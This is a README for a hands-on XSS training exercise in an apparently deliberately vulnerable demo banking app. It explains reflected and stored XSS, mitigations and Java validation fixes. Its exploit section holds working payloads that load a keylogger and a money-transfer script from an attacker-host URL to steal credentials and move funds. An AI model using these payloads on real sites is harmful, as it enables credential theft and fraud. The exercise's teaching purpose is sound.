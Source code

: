 # Exercise 2 - XXS 

This exercise is to help you understand XSS and its mitigation.

## Setup and Start Applications

1. check out exercise2 
   * choose branch 'exercise2' in the 'VCS -> Git -> Branches' menu within IntelliJ
1. start the v-bank-app in debug mode
   * start the Maven configuration for the "v-bank-app" in DEBUG mode (with the green BUG icon next to the arrow)
   (you should have created it as described in point __2.2. of the Workspace Setup Instructions__ at https://github.com/vargadan/v-bank/blob/master/README.md)
1. start the attacker-app
   * start the Maven configuration for the "v-bank-app" in DEBUG mode (with the green BUG icon next to the arrow)
   (you should have created it as described in point __2.2. of the Workspace Setup Instructions__ at https://github.com/vargadan/v-bank/blob/master/README.md)
   
## Search for XSS vulnerabilities

XSS is about injecting malicious javascript into the application so that it is executed in the browser within a valis user session.
Please remember the 2 categorizations of XSS vulnerabilities:
#### __reflected OR stored XSS__
1. reflected XSS: the malicious javascript code displayed in the response is included with the corresponding request.
1. stored or persisted XSS: the malicious javascript is read from a storage (typically database), and has to be saved there first.
#### __source OR DOM based XSS__
1. source based: the malicious javascript code is placed into the HTML markup on the server side before sent to the browser/client.
1. DOM based: it is client side javascript code manipulating the page in the browser through its document-object-model (DOM) that places the malicious code into the page.  
#### Hints:
* The v-bank application is a rather traditional multi page web application with little Ajax/Javascript code (there is only a little on the home page).\
Therefore it is mostly susceptible to source based XSS vulnerabilities.
* Look for reflected XSS vulnerabilities where request parameters are directly written to the HTML output (page.tag is template used for all pages)
* Look for stored XSS vulnerabilities where form values are saved without validation/encoding/sanitization and then / or printed without escaping
#### Present XSS vulnerabilities:
* *page.tag* template prints a number of requests parameters into the HTML without escaping:
  * *error* : `<div ...>${error}</div>`
  * *info* : `<div ...>${info}</div>` 
  * *message* : `<div ...>${message}</div>`
  * Test it: 
    1. You should get an alert pop-up with '1' displayed as the javascript in the request parameter executes: http://vbank.127.0.0.1.xip.io:8080/login?info=%3Cscript%3Ealert(1)%3C/script%3E 
* *transfer.jsp* and *BankController.doTransfer(...)* save the transfer details without validation/etc. and *history.jsp* displays them w/o escaping
  * Test it:
    1. Go to the transfer page and make a transfer to any valid account (i.e. 2-123456-22) with the note '<script>alert(2)</script>'
    1. Then visit the history page where you should get an alert pop-up with '1' displayed as the javascript entered in the note filed executes.

## Exploit to understand
1. Exploit stored XSS in login page:
   * as Alice send Bob the login link which installs a keylogger by exploiting the reflected XSS vulnerability: 
     http://vbank.127.0.0.1.xip.io:8080/login?info=%3Cscript%20src=%22http://attack.127.0.0.1.xip.io:9090/js/keylog.js%22%3E%3C/script%3E 
   * the keylogger sends each keystroke to the log service running in the attacker app, the logged keystrokes you can see at http://attack.127.0.0.1.xip.io:9090/viewlog\
     (Do not let the browser autofil the form! ...because there are no keystrokes then)
   * this way Alice can steal Bob's login credentials. Even though the keylogger and the log viewer app are by far no perfect
1. Exploit stored XSS
   * log in as Alice (alice / h1alice) and trasnfer Bob a little amount with the note including a malicious javascript posting a transfer (and overcoming CSRF protection by including the token)
     * Bob's account No is 1-123456-11
     * The attack script is at http://attack.127.0.0.1.xip.io:9090/js/attack.js; this has a function *transfer(formname, fromAccount, toAccount, amount, currency, action)* 
     * Use this in the note field: `<script src="http://attack.127.0.0.1.xip.io:9090/js/attack.js"></script><script>transfer("fromBob1","1-123456-11","3-123456-33","1000","CHF")</script>`
     * Please transfer 1 CHF to Bob's account with the above script in the note.
   * as Bob logs in and reviews his transactions the malicious script included in Alice's transfer executes and transfers Alice a larger amount without Bob's consent.
     * login as Bob (bob / h3ll0bob) and go to the transaction history page (by clickin on the account number); 
     * the malicious script you have just saved in the note field of the transaction as Alice is loaded from the database and executed in the browser;
     * if you refresh the page you sould see the transaction. Acrtually; the script should execute every time the transaction history page is loaded for Bob.
  
## Mitigations:
  * validate input
    * set up validation rules (such as data size/length, format, possible values) for the transaction fields of accountNo, amount, currency
  * encode text input (i.e. with HTML encoding) 
    * on the transaction form this applies to the _note_ field
  * sanitize text/HTML input (remove potentially dangerous char sequences) 
    * only if validation and encoding are not possible (i.e. rich text HTML)
    * well, the transaction form has no such field
  * escape output; it replaces control characters with their encoded counterparts that are not interpreted as controls/commands by the HTML parser and can be displayed (i.e. < will be converted to &gt;)
  * use Secure-Content-Policy headers to control which scripts the browser can execute (this needs to be supported by the browser as well)

## Fix
* Escape output in *page.tag* and *history.jsp*:
For JSP please use c:out tag; you may explicitly set the escapeXml to true `<c:out value="${variable}" escapeXml=true />`
* Validate/encode input in *BankController.doTransfer(...)*

```java
public class BankController {

    private static final Collection<String> SUPPORTED_CURRENCIES = Arrays.asList("CHF", "USD", "GBP", "EUR");

    private static final String ACCOUNT_NO_PATTERN = "^\\d{1}?-\\d{6}?-\\d{2}?$";

    ...
    @RequestMapping(value = "/doTransfer", method = RequestMethod.POST)
    public ModelAndView doTransfer(@ModelAttribute Transaction transaction, ModelMap model) {
        //only execute transfer if the transaction data is valid
        if (validateTransaction(transaction, model)) {
            //note is free text property, we convert it to HTML encoding so that it is safe(r) to handle 
            String encodedNote = Encode.forHtmlContent(transaction.getNote());
            if (accountService.transfer(transaction.getFromAccountNo(), transaction.getToAccountNo(), transaction.getAmount(),
                    transaction.getCurrency(), encodedNote)) {
                model.addAttribute("info", "Transaction was completed.");
            } else {
                model.addAttribute("info", "Transaction is pending.");
            }
            return new ModelAndView("redirect:/", model);
        } else {
            return new ModelAndView("transfer", model);
        }
    }
    
    ...

    private boolean validateTransaction(Transaction transaction, ModelMap modelMap) {
        boolean valid = true;
        try {
            validateAccountNo(transaction.getFromAccountNo());
        } catch(ValidationException e) {
            modelMap.addAttribute("fromAccountNoMsg", e.getMessage());
            valid = false;
        }
        try {
            validateAccountNo(transaction.getToAccountNo());
        } catch(ValidationException e) {
            modelMap.addAttribute("toAccountNoMsg", e.getMessage());
            valid = false;
        }
        if (!SUPPORTED_CURRENCIES.contains(transaction.getCurrency())) {
            modelMap.addAttribute("currencyMsg", "Currency not supported!");
            valid = false;
        }
        if (transaction.getAmount() == null) {
            modelMap.addAttribute("amountMsg", "Transaction amount is required");
            valid = false;
        }
        return valid;
    }
}
```
  
You may see the solution in the _exercise2-solution_ branch at at https://github.com/vargadan/v-bank/tree/exercise2-solution

The relevant changes are:
* validation logic in the BankController class in file _BankController.java_
* the generic page template escaping output in file _page.tag_

More on XSS prevention:
https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.md